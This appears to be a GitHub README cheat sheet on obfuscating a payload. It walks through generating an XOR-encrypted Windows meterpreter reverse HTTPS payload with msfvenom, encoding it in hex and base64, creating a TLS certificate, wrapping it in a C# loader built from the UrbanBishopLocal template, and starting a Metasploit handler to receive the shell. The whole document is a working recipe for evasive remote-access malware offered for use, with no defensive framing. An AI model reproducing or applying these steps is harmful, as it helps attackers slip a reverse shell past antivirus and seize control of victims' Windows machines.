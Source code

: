 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<OurIPADRESS> LPORT=443 --encrypt xor --encrypt-key <helloworld> --format raw > testf
```  
helloworld are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' testf
```  

### Convert data to Base64  
```sh
base64 testf > newtest
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o nameofproject
cd nameofproject
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.
#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert /home/PATH/TO/THE/example.pem (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST ourIPADRESS  
set LPORT 443  
exploit
```  

